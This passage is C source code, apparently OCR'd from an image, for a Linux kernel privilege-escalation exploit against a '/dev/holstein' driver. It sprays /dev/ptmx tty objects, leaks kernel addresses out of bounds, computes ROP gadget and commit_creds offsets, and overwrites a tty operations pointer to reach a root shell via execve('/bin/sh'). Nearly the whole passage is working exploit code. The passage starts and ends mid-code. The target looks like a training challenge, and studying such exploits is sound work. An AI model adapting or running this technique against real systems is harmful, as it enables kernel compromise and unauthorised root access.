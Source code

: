 ```c
            "mov user_rsp, rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax;"
       );
    puts("[+] save state");
}

void shell()
{
    char *argv[] = {"/bin/sh",NULL};
    char *envp[] = {NULL};
    puts("ROOOOT");
    execve("/bin/sh",argv,envp);
}
void leak()
{
    int fd_spray[100];
    
    for(int i=0; i < 50;i++){
		fd_spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
		if(fd_spray[i]==-1){
			perror("/dev/ptmx");
			exit(EXIT_FAILURE);
		}
	}
	global_fd = open("/dev/holstein",O_RDWR);
	for(int i=50; i < 100;i++){
		fd_spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
		if(fd_spray[i]==-1){
			perror("/dev/ptmx");
			exit(EXIT_FAILURE);
		}
	}

    memset(buff,'A', 0x500);
    read(global_fd,buff,0x500);

    /*for(int i=0; i < 0x500; i++){
        printf("0x%x = 0x%016lx\n" ,i, *(unsigned long*)(buff + i));
    }*/
    g_buf = *(unsigned long*)(buff + 0x438) - 0x438;
    tty_ops = *(unsigned long *)(buff + 0x418);
    kbase = tty_ops - 0xc38880;
    pop_rdi = kbase + 0x0d748d;
    pop_rcx = kbase + 0x13c1c4;
    commit_creds = kbase + 0x0744b0;
    prepare_kernel_cred = kbase + 0x074650;
    mov_rdi_rax_rep = kbase + 0x62707b;
    swapgs = kbase + 0x800e26;
    printf("tty_ops: 0x%016lx\n" ,tty_ops);
    printf("kernel base: 0x%016lx\n" ,kbase);
    printf("k_buf : 0x%016lx\n" ,g_buf);

    unsigned long *p = (unsigned long *)&buff;
    printf("ptr: 0x%016lx\n" ,*p);

    for (int i = 0; i < 0x40; i++) {
        *p++ = 0xffffffffdead0000 + (i << 8);
    }
    *(unsigned long*)&buff[0x418] = g_buf;
    write(global_fd, buff, 0x420);

```